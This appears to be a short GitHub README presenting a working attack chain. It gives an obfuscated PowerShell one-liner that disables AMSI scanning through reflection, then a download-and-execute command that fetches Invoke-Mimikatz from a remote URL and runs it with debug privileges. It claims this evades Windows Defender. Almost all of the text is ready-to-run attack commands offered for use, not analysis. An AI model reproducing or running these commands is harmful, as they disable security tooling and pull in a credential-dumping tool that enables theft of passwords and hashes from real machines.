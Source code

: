 # note
Patch API AmsiScanBuffer so to bypass amsi 

The original mimikatz.ps1 can't run on win10,so I patch the original ps1,the link is : https://github.com/PowerShellMafia/PowerSploit/issues/320 

run powershell,then:

`$a =[Ref].Assembly.GetType('System.Management.Automation.AmsiUt'+'ils')`
`$h="4456625220575263174452554847"`
`$s =[string](0..13|%{[char][int](53+($h).substring(($_*2),2))})-replace " "`
`$b =$a.GetField($s,'NonPublic,Static')`
`$b.SetValue($null,$true)`

`IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/sharp-shooter/research/master/code/mimikatz/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command "privilege::debug coffee"`





Now It can bypass Windows Defender (2021--27)

[](https://raw.githubusercontent.com/sharp-shooter/research/master/code/mimikatz/screenshot.png)
